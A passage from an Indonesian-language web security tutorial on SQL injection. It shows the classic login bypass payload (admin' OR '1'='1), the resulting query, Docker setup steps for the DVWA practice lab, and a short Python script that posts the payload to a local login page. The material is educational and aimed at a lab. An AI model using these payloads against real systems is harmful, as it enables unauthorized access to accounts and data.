 :::warning[Kode Vulnerable]
Code di atas **sangat berbahaya** karena tidak melakukan sanitasi input!
:::

Attacker bisa memasukkan:
```
Username: admin' OR '1'='1
Password: anything
```

Query yang dihasilkan:
```sql
SELECT * FROM users WHERE username='admin' OR '1'='1' AND password='anything'
```

Karena `'1'='1'` selalu bernilai TRUE, query akan mengembalikan semua user!

## Contoh Praktis (Lab Environment)

:::tip[Safe Practice Environment]
Gunakan aplikasi vulnerable untuk belajar:
- **DVWA** (Damn Vulnerable Web Application)
- **bWAPP**
- **WebGoat**

::github{repo="digininja/DVWA"}
:::

### Step 1: Setup Lab

```bash title="setup-dvwa.sh" showLineNumbers
# Install DVWA dengan Docker
git clone https://github.com/digininja/DVWA.git
cd DVWA
docker-compose up -d
```

### Step 2: Eksploitasi (Educational Purpose)

```python title="exploit.py" showLineNumbers {8-10}
import requests

url = "http://localhost/login.php"

# Payload SQL Injection
payload = {
    'username': "admin' OR '1'='1",
    'password': "anything",
    'submit': 'Login'
}

response = requests.post(url, data=payload)
print(response.text)
```
